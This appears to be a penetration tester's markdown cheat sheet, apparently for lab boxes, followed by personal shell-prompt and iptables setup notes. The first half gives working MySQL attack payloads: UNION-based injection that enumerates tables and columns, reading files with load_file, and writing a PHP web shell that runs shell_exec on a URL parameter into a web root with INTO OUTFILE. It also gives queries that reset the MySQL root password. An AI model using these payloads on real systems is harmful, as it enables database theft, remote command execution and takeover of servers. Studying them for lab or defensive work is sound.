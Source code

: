 ## Basic MySQLi
```
Union Select 1,2,3,4,group_concat(0x7c,table_name,0x7C) from information_schema.tables
Union Select 1,2,3,4,column_name from information_schema.columns where table_name="<TABLE NAME>"
```

## Read & Write
```
select load_file('/var/lib/mysql-files/key.txt'); #Read file
select 1,2,"<?php echo shell_exec($_GET['c']);?>",4 into OUTFILE 'C:/xampp/htdocs/back.php'
```


## Try to change MySQL root password
```
UPDATE mysql.user SET Password=PASSWORD('MyNewPass') WHERE User='root';
UPDATE mysql.user SET authentication_string=PASSWORD('MyNewPass') WHERE User='root';
FLUSH PRIVILEGES;
quit;
```
## Any useful functions?
   select * from mysql.func


 

# My initial machine setup:
## Favorite prompt:
```
# export PROMPT_DIRPATH=3   #this might have been incorrect
export PROMPT_DIRTRIM=3
PS1="\[\033[0;33m\][\!]\`if [[ \$? = "0" ]]; then echo "\\[\\033[32m\\]"; else echo "\\[\\033[31m\\]"; fi\`[\u.\h: \w]\\$\[\033[0m\] "
```
## zsh equivilent (or close enough
```
PROMPT='%F{yellow}%}[%h]%f%(?.%F{green}.%F{red}%})[%n.%m: %3~]%(!.#.$) %{$reset_color%}'
```

## Some decent starter iptables I like on my Attack Box
```
# Generated by xtables-save v1.8.2 on Wed Feb 20 13:30:39 2019
*filter
:INPUT ACCEPT [0:0]
:FORWARD DROP [0:0]
:OUTPUT ACCEPT [0:0]
:LOGDROP - [0:0]
-A INPUT -i lo -j ACCEPT
-A INPUT -m conntrack --ctstate RELATED,ESTABLISHED -j ACCEPT
-A INPUT -m conntrack --ctstate INVALID -j DROP
-A INPUT -j LOGDROP
-A FORWARD -j DROP
-A OUTPUT -o lo -j ACCEPT
-A OUTPUT -m conntrack --ctstate ESTABLISHED -j ACCEPT
-A OUTPUT -p tcp -m multiport --dports 53,67,68,1337 -j ACCEPT
-A OUTPUT -p tcp -m multiport --dports 22,53,80,443,1337 -j ACCEPT
-A OUTPUT -d 10.10.10.0/24 -o tun0 -j ACCEPT
-A OUTPUT -j LOGDROP
-A LOGDROP -m limit --limit 2/min -j LOG --log-prefix "iptables DROP"
-A LOGDROP -j DROP
```